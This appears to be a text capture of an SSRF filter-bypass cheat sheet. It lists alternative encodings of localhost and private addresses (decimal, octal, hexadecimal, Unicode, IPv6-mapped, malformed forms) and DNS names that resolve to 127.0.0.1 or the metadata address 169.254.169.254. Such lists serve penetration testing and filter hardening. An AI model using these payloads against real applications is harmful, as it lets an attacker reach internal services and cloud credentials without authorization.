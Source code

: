 ```bash
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR bypass
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# Octal Bypass
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# Mixed encodings bypass
169.254.43518 -> Partial Decimal (Class B) format combines the third and fourth parts of the IP address into a decimal number
0xA9.254.0251.0376 -> hexadecimal, decimal and octal

# Add 0s bypass
127.000000000000.1

# You can also mix different encoding formats
# https://www.silisoftware.com/tools/ipconverter.php

# Malformed and rare
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS to localhost
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```